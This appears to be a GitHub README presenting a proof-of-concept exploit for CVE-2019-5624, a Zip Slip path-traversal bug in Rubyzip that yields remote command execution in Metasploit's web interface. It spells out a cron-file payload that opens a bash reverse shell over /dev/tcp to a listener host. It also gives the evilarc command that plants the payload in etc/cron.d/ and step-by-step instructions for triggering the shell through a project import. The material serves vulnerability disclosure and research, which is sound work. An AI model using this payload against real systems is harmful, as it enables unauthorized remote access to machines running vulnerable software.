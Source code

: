 # CVE-2019-5624
A proof of concept for Metasploit's CVE-2019-5624 vulnerability (Rubyzip insecure ZIP handling RCE)

## Intro

In February 2019 I found a new vulnerability in the Rubyzip library. It allows an attacker to exploit insecure ZIP handling ([Zip Slip](https://snyk.io/research/zip-slip-vulnerability)) resulting in remote command execution.

This vulnerability was leveraged to targets all Metasploit versions < 5.0.18 [Metasploit Wrap-Up](https://blog.rapid7.com/2019/04/19/metasploit-wrap-up-13/)

I've made this detailed [blog post](https://voidsec.com/rubyzip-metasploit-bug/) explaining the vulnerability.

## POC

+ Create a file with the following content:
```
* * * * * root /bin/bash -c "exec /bin/bash0</dev/tcp/172.16.13.144/4444 1>&0 2>&0 0<&196;exec196<>/dev/tcp/172.16.13.144/4445; bash <&196 >&196 2>&196"
```
+ Generate the ZIP archive with the path traversal payload: 
```
python evilarc.py exploit --os unix -p etc/cron.d/
```
+ Add a valid MSF workspace to the ZIP file (in order to have MSF to extract it, otherwise it will refuse to process the ZIP archive)
+ Setup two listeners, one on port 4444 and the other on port 4445 (the one on port 4445 will get the reverse shell)
+ Login in the MSF Web Interface
+ Create a new “Project”
+ Select “Import”, “From file”, chose the evil ZIP file and finally click the “Import” button
+ Wait for the import process to finish
+ Enjoy your reverse shell

## Video
[![](http://img.youtube.com/vi/79Dl-Ylu6Ig/0.jpg)](http://www.youtube.com/watch?v=79Dl-Ylu6Ig "https://voidsec.com/wp-content/uploads/2019/04/metasploit-og-463x348.png")

